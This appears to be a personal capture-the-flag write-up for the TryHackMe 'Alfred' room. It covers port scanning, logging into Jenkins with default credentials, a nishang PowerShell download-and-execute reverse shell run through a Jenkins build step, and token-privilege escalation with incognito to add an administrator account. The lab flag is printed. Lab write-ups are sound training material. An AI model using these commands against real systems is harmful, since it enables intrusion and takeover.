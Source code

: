 kali@kali:~/oscptraining/tryhackme/Alfred$ nmap -sV -sC -o nmap 10.10.22.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-21 10:27 EDT
Nmap scan report for 10.10.22.129
Host is up (0.36s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-10-21T14:28:45+00:00; -1s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.14 seconds

gobuster dir -e -u 10.10.209.153 -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt


nothing much after running gobuster either using common.txt and big.txt

lets look for default pw and user for jenkin
http://10.10.22.129:8080/login?from=%2F
admin;admin 
alright great, got our asses in!

can see that it is running on ver 2.190.1
Page generated: Oct 21, 2020 3:45:35 PM BSTREST APIJenkins ver. 2.190.1
lets check out searchsploit. not too sure about those exploits...
looking at the website we proceed to the project page and build a project

load into configuration then build, use nishang 
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]


Started by user admin
Running as SYSTEM
Building in workspace C:\Program Files (x86)\Jenkins\workspace\project
[project] $ cmd /c call C:\Users\bruce\AppData\Local\Temp\jenkins8034204804437582227.bat

C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>exit 0 
Finished: SUCCESS

getting user.txt

PS C:\> cd Users
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            bruce                             
d----        10/25/2019  10:21 PM            DefaultAppPool                    
d-r--        11/21/2010   7:16 AM            Public                            


PS C:\Users> cd bruce
PS C:\Users\bruce> dir


    Directory: C:\Users\bruce


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            .groovy                           
d-r--        10/25/2019   9:51 PM            Contacts                          
d-r--        10/25/2019  11:22 PM            Desktop                           
d-r--        10/26/2019   4:43 PM            Documents                         
d-r--        10/26/2019   4:43 PM            Downloads                         
d-r--        10/25/2019   9:51 PM            Favorites                         
d-r--        10/25/2019   9:51 PM            Links                             
d-r--        10/25/2019   9:51 PM            Music                             
d-r--        10/25/2019  10:26 PM            Pictures                          
d-r--        10/25/2019   9:51 PM            Saved Games                       
d-r--        10/25/2019   9:51 PM            Searches                          
d-r--        10/25/2019   9:51 PM            Videos                            


PS C:\Users\bruce> cd desktop
PS C:\Users\bruce\desktop> dir


    Directory: C:\Users\bruce\desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2019  11:22 PM         32 user.txt                          


PS C:\Users\bruce\desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0


PS C:\Users\bruce\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled


lets exploit these 2 services 
SeDebugPrivilege                Debug programs                            Enabled 
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 

Enter: load incognito to load the incognito module in metasploit
lets use incognito without metasploit 


PS C:\Program Files (x86)\Jenkins\users> ./incognito.exe add_user admin admin
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user admin to host 127.0.0.1
[+] Successfully added user
PS C:\Program Files (x86)\Jenkins\users> ./incognito.exe add_localgroup_user Administrators admin
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user admin to local group Administrators on host 127.0.0.1
[+] Successfully added user to local group
PS C:\Program Files (x86)\Jenkins\users> 


Abusing Token Privileges For LPE
https://www.exploit-db.com/papers/42556


